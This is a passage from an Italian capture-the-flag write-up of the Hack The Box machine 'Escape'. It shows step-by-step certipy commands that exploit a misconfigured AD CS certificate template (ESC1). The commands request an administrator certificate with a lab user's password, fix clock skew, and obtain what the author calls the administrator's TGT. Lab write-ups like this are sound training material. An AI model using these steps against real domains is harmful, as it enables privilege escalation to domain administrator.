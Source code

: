 Quindi scopro che la macchina è vulnerabile al template "UserAuthentication". In particolare, se il flag CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT viene trovato nell'attributo mspki-certificate-name-flag, gli utenti iscritti al certificato possono fornire un Subject Name alternativo quando richiedono il certificato.

Quindi questo permette a chiunque di iscriversi a questo template fornendo un nome alternativo (e quindi anche quello del Domani Administrator).

Per sfruttare questa vulnerabilità utilizzo _certipy_:

```bash
certipy req -u ryan.cooper@sequel.htb -p NuclearMosquito3 -upn administrator@sequel.htb
-target sequel.htb -ca sequel-dc-ca -template UserAuthentication
```

<p align="center">
  <img src="/Immagini/Windows-Box/Escape/escape-13.png"/>
</p>

Una volta ottenuto il certificato utilizzo _certipy_ per recuperare il TGT dell'utente administrator:

```bash
certipy auth -pfx administrator.pfx
```

Ma ottengo il seguente errore:

<p align="center">
  <img src="/Immagini/Windows-Box/Escape/escape-14.png"/>
</p>

Per risolvere devo sincronizzare il clock della mia macchina con quello della macchina remota:

```bash
sudo ntpdate -u dc.sequel.htb
```

Successivamente, lancio di nuovo comando _certipy_ e ottengo cosi il TGT dell'administrator:

```text
a52f78e4c751e5f5e17e1e9f3e58f4ee
```
